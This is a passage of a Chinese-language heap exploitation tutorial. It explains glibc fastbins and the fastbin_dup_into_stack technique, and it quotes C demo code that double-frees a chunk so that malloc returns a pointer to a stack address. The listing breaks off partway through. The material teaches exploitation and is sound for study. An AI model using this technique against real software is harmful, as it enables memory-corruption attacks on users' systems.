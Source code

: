 此时的A指针仍然是存在的，所以可能会存在UAF漏洞，这个漏洞之前在分析IE漏洞的时候也分析过，就不再赘述了。



## 2.fastbin_dup_into_stack

漏洞类型fastbin_attack

背景知识:

Fast bins 主要是用于提高小内存的分配效率,使用单链表进行链接，默认情况下，对于 SIZE_SZ 为 4B 的平台， 小于 64B 的 chunk 分配请求，对于 SIZE_SZ 为 8B 的平台，小于 128B 的 chunk 分配请求，首先会查找 fast bins 中是否有所需大小的 chunk 存在(精确匹配)，如果存在，就直接返回。

简介:这个漏洞是我之前与堆溢出相识的第一道题，很不靠谱的以为这是UAF漏洞（当时概念不清）。Fastbin_attack主要是通过修改fd指针，伪造一个fake_chunk，实现对任意地址写。

源代码

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;


int main()
`{`

​    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc inton"

​           "returning a pointer to a controlled location (in this case, the stack).n");


​    unsigned long long stack_var;

​    fprintf(stderr, "The address we want malloc() to return is %p.n", 8+(char *)&amp;stack_var);
​    fprintf(stderr, "Allocating 3 buffers.n");

​    int *a = malloc(8);
​    int *b = malloc(8);
​    int *c = malloc(8);

​    fprintf(stderr, "1st malloc(8): %pn", a);
​    fprintf(stderr, "2nd malloc(8): %pn", b);
​    fprintf(stderr, "3rd malloc(8): %pn", c);
​    fprintf(stderr, "Freeing the first one...n");

​    free(a);
​    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.n", a, a);
​    // free(a);
​    fprintf(stderr, "So, instead, we'll free %p.n", b);
​    free(b);

​    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.n", a);
​    free(a);
​    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
​        "We'll now carry out our attack by modifying data at %p.n", a, b, a, a);
​    unsigned long long *d = malloc(8);

​    fprintf(stderr, "1st malloc(8): %pn", d);
​    fprintf(stderr, "2nd malloc(8): %pn", malloc(8));
​    fprintf(stderr, "Now the free list has [ %p ].n", a);
​    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.n"

​        "so now we are writing a fake free size (in this case, 0x20) to the stack,n"
​        "so that malloc will think there is a free chunk there and agree ton"
​        "return a pointer to it.n", a);
​    stack_var = 0x20;

```